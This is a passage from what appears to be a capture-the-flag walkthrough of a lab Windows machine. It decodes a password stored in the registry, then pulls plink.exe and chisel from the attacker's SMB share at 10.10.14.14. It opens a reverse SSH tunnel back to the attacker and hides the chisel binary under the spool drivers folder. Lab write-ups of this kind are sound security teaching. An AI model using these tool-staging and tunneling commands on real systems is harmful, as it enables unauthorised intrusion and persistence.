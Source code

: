 ```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Enum

```

If I look at that as ASCII, I get a string:

```

root@kali# echo 4800370033004200700055005900320055007100390055002D005900750067007900740035004600590055006200590030002D0055003800370074003800370000000000 | xxd -r -p
H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87

```

### Tunnel

I originally created tunnels with `plink.exe` , but I’m so much more a fan of [chisel](https://github.com/jpillora/chisel) right now (check out [this post](/cheatsheets/chisel) for more details). I’ll show both.

#### plink.exe

First, I’ll upload plink with `smbserver` on my kali box:

```

C:\Users\Nelson\AppData\Local\Temp>net use \\10.10.14.14\share
net use \\10.10.14.14\share
The command completed successfully.

C:\Users\Nelson\AppData\Local\Temp>copy \\10.10.14.14\share\plink.exe .
copy \\10.10.14.14\share\plink.exe .
        1 file(s) copied.

```

I’ll ssh back to my host as the dummy user, and create a reverse tunnel (for details on SSH tunneling, see [this post](/2018/06/10/intro-to-ssh-tunneling.html)):

```

C:\Users\Nelson\AppData\Local\Temp>plink -R 2020:localhost:2020 dummy@10.10.14.14
plink -R 2020:localhost:2020 dummy@10.10.14.14
dummy@10.10.14.14's password: **********************

```

Now I have a tunnel listening on my kali box on port 2020 that will forward to bighead on 2020.

#### chisel

I’ll grab the [latest 32-bit release](https://github.com/jpillora/chisel/releases) and upload it using SMB:

```

C:\Windows\System32\spool\drivers\color>copy \\10.10.14.14\share\chisel_windows_386.exe \Windows\System32\spool\drivers\color\c.exe

```
